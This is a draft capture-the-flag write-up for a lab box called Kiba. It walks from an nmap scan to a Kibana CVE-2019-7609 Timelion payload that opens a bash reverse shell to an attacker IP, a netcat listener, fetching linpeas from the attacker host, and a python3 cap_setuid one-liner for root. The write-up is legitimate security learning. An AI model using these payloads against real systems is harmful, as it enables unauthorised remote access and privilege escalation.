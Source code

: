 * NOT THE FINAL WRITEUP !!! *
* 
# ROOM : KIBA

## 1. Enumeration

First of all, i have to gather somes informations about this boxes.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:19 EDT
Nmap scan report for 10.10.223.77
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:28 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.94%I=7%D=8/20%Time=64E27588%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:28\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.40 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

Kibana is a data visualization dashboard for Elasticsearch.

## 2. Research of exploit !
After a quick analyze, we found Kibana is  in version 6.5.4.

After one quick search on google, we found one CVE about Kibana : **CVE-2019-7609**
This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner on port 4444 :

`nc -lnvp 4444`

On the Timelion, we can use this payload :

`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

python2 CVE-2019-7609-kibana-rce.py -u http://10.10.223.77:5601 -host {MY_IP} -port 4444 --shell

And we have just to wait on the listenner (previously runned with netcat)

Nice, we have the reverse shell on the web server !

1st flag obtained !

## 3. Privilege escalation !

After quick analyze of config file or something usefull, i found something interesting but i want see what linpeas can see, linpeas is a great tool for linux enumeration for privesc.

1. Setup a webserver to download linpeas.
python3 -m http.server 80
2. Getting linpeas.sh on the server
wget {MY_IP}/linpeas.sh
3. Configure the script whith executable flag:
chmod +x linpeas.sh
4. run the script and wait !

Great, linpeas found one interesting file !

`/home/kiba/.hackmeplease/python3 = cap_setuid+ep`

This binarie have **cap_setuid+ep** attribute, wich means this binarie can change his UID. We can use it to generate a shell with UID 0 and getting the root.

We can see python have the setuid capabilite and we can exploit this.
Using GTFOBins we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

root flag obtained !
